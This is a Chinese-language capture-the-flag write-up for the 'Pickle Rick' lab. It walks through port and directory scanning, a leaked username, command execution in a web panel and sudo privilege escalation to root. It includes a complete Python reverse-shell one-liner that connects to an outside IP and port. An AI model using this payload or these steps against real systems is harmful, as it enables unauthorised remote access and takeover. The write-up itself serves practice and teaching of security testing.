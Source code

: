 # Pickle Rick

瑞克和莫蒂的CTF。 帮助瑞克变回人类！

---

## 端口扫描

循例 nmap扫：

    22/tcp open  ssh
    80/tcp open  http

上80的web看看

## web目录扫描

    gobuster dir --url http://10.10.20.183/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt

    /robots.txt 一串字符串
    /denied.php -> 重定向到login.php

主页源代码披露用户名：

     <!--

        Note to self, remember username!

        Username: R1ckRul3s

    -->

用户名有了，登录系统都有了，不妨再试试那串字符串是不是密码

登录成功

## RCE

一个命令执行框入目眼帘，执行whoami成功返回结果

## Reverse shell

python3 -V正常返回结果，故利用python getshell

payload:

    python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.39.48",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

成功

## 权限提升

查看sudo -l

    (ALL) NOPASSWD: ALL

太简单了，直接：

    sudo su

    root@ip-10-10-20-183:/var/www/html# whoami
    root

第一种成分是在 Sup3rS3cretPickl3Ingred.txt

第二种成分是在：

    root@ip-10-10-20-183:/home/rick# cat "second ingredients"

第三种成分是在/root下：

    root@ip-10-10-20-183:~# cat ./3rd.txt
